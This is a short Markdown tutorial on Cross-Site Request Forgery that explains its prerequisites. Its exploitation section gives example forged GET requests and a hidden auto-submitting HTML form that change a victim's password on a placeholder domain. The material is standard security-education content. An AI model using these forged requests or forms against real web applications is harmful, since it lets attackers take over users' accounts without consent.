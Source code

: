 # Cross Site Request Forgery (CSRF)
**Cross-Site Request Forgery (CSRF)** is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing.

## Overview and Prerequisites
- **Valuable Action:** One needs to find an action that is worth exploiting, such as, changing user information.
- **Session:** The user's session must only be managed by a cookie.

## Exploitation
**Both methods mentioned below can be distributed via *social engineering***
### GET
- This is a normal request to change a user's (`acc`) password (`new_pass`) on a platform
    ```
    GET http://domain.com/action/?acc=test&new_pass=password123
    ```
- To exploit this and change the password of the victim, one can do this:
    ```
    GET http://domain.com//action/?acc=victim&new_pass=newpassword123
    ```

### POST
- Basic request to change password
    ```
    POST http://domain.com/action/

    acc=test&new_pass=password123
    ```
- To exploit it, one needs to create a fake form which points to the URL that the they need with the attributes needed 
    ```html
    <form action="http://domain.com/action/" method="POST">
        <input type="hidden" name="acc" value="victim"/>
        <input type="hidden" name="new_pass" value="newpassword123"/>
        <input type="submit" value="THIS IS A CSRF ATTEMPT"/>
    </form>
    ```
- Since the form needs to be sent, one can just make add an autosubmit functionality to the page:
    ```html
    <body onload="document.forms[0].submit()">
    ```


## References
- [https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf)
- [https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)